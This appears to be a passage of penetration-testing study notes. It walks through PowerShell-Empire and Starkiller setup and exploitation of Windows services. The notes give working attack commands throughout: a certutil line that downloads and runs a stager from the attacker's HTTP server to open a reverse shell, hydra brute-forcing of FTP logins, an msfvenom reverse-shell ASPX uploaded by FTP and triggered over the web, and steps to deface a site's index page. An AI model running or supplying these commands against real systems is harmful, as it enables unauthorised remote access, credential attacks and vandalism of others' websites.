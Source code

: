     ***Note: In a reverse shell a Linux target can connect using bash, python, php, etc not only netcat itself. If windows then only using powershell and netcat code.
    
    Reverse shell cheatsheet in GitHub.
    
    [revshells.com](http://revshells.com) - reverse shell generator
    

### PowerShell-Empire

PowerShell-Empire is a PowerShell (written in mostly) framework used for exploitation/post-exploitation. (mostly for windows exploitation)

Starkiller is a GUI frontend for PowerShell-Empire.

Installing from GitHub - BC Security Empire

- `./ps-empire server`
- `./ps-empire client`
- `(Empire) >` - CLI of ps-empire **client**

In **Starkiller**:

1. Listeners → Create → Type: HTTP  → Submit
2. Stagers → Create → Type: windows_csharp_exe → Submit → Stagers → Actions → Download
3. `python -m http.server 80` - On our host
4. `certutil -urlcache -f http://<local>/stager.exe stager.exe` - On our target
5. `.\stager.exe` - On our target for getting a reverse shell in our Starkiller session
6. Agents → Actions → View → Name (Naming our target) — Shows our remote access
    1. Click to the agent → Interact → Shell Command (whoami) → Right arrow on the top (for results of our commands)
    2. Click to the agent → FIle Browser (Gives all files on our target) — We can upload and download files like in meterpreter
7. `(Empire) > agents`
8. `(Empire) > interact <agent.name>`

### Windows Exploitation

Black-box pentesting - we are not provided with anything, other than a company name (no ip ranges at all)

Indentifying and Exploiting Services:

**FTP**:

- `nmap —script=ftp-anon -p21 <ip>`
- `hydra -L <unix_users.txt> -P <unix_passwords.txt> ftp://<ip>`
- `msfvenom -p windows/shell/reverse_tcp LHOST=<local> LPORT=1234 -f asp -o shell.aspx`
- `ftp <ip>`
- `ftp> put shell.aspx` -  uploading our reverse shell
- `msf6 > use multi/handler`
- *http://<ip>/shell.asp* -  for executing our reverse shell

Defacing the website: (changing)

- `ftp> get index.html`
- `nano index.html` - changing the file (web server file)
- `ftp> put index.html` - uploading the defaced file, and the website’s look will be different
